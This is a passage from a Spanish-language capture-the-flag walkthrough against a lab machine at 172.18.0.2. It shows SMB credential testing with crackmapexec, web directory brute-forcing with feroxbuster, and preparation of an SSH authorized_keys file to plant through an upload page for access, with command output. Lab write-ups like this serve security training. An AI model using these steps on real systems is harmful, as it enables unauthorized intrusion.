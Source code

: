 Entre otras cosas encontramos un recurso compartido, **read_only_share**, y cuatro usuarios: **root-false, sambauser, less y passsamba**. 

```bash
sudo crackmapexec smb -u root-false -p passsamba --local-auth 172.18.0.2
SMB         172.18.0.2      445    64A2DD61671C     [*] Windows 6.1 Build 0 (name:64A2DD61671C) (domain:64A2DD61671C) (signing:False) (SMBv1:False)
SMB         172.18.0.2      445    64A2DD61671C     [+] 64A2DD61671C\root-false:passsamba
```

Ahora pasamos a enumerar el servicio web. Primero hacemos un ataque de fuerza bruta para encontrar directorios y ficheros:

```bash
feroxbuster -u http://172.18.0.2 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-big.txt -r -d 1 -x .php,.txt,.zip
200      GET        1l       10w       56c http://172.18.0.2/upload.php
200      GET       94l      183w     2410c http://172.18.0.2/200      GET        2l       16w       78c http://172.18.0.2/readme.txt
```

Llama la atención el fichero **readme.txt**. Lo vemos:

```bash
curl http://172.18.0.2/readme.txt

It may be that the file that is being uploaded is being uploaded in a .ssh/?
```

Parece que la url [**http://172.18.0.2/upload.php**](http://172.18.0.2/upload.php) sube el fichero al directorio **.ssh** de alguno de los usuarios que hemos descubierto. Vamos a crear un par de claves públicas/privadas:

```bash
# Creamos las claves
ssh-keygen -t rsa -b 4096

# Creamos el fichero authorized_keys
cat id.pub > authorized_keys
```

Subimos el fichero **authorized_keys:**

![image](/assets/images/r00tless/1.png)